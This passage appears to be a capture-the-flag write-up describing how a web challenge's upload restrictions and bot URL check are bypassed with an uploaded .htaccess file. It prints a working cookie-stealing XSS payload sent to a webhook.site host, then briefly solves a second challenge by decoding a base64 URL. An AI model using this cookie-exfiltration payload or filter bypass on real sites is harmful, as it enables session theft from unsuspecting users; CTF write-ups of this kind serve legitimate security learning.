 - `AllowOverride FileInfo` and `AccessFileName .htaccess` allows .htaccess for us, which is a giveaway on what to use
- `<FilesMatch "^.*\.ph.*$">` bounces any file containing `.ph` in it. this means no .php, .pht etc. but we wont need that

also, the bot service has a restriction too:
```js
if (!url.match(new RegExp(`^${SITE_URL}uploads/[^/]+/?$`))) {
    console.log(`[-] Invalid URL: ${url}`);
    return;
}
```
the regex forces the URL to end in a folder, so things like `uploads/abcd-1234/` will work, but `uploads/abcd-1234/xss.html` wouldnt\
but this sends the bot into the directory index, so we have to redirect the bot using .htaccess somehow

fortunately we can use **RewriteEngine** (enabled by `IncludeOptional mods-enabled/*.conf`) to redirect\
lets redirect the bot to a nonexistent page, and return xss payload in the 404 response!
```apacheconf
RewriteEngine On
RewriteRule ^$ cba.html [L]
ErrorDocument 404 "<script>new Image().src=\"https://webhook.site/grab-ur-own-webhook-brah?c=\"+document.cookie</script>"
```
![](images/cloud.png)

# Feedback
never do the feedback challs the conventional way!\
ctrl+u, scroll to form data and you'll notice something interesting:
```
["I have a gift for you: aHR0cHM6Ly9jdGYuc2NpbnQub3JnL2ZpbGVzLzA2ZThlZjljZThjZjI3Y2E1MjA0MzJlM2QxMGY5NDE3L2ZsYWcucG5n",1,0,1,0]
```
b64 -> https://ctf.scint.org/files/06e8ef9ce8cf27ca520432e3d10f9417/flag.png
